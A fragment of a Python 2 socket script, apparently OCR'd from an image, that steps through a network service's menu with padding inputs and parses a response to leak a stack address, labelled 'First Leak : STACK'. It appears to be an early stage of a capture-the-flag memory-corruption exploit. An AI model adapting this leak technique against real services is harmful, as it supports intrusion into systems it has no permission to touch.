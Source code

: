 ``` py
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("1\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("S"*16+"\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("3\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
stack = data.split("S"*16)[1][:4]
print "Stack : %s" % repr(stack)
print "******************* First Leak : STACK ***********************"
 
s.send("1\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("2\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("4\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("1\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("H"*20+"\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
s.send("3\n")
data = s.recv(SIZE)
print "FIRST RECV : %s" % data
data = s.recv(SIZE)
print "SECOND RECV : %s" % data
 
```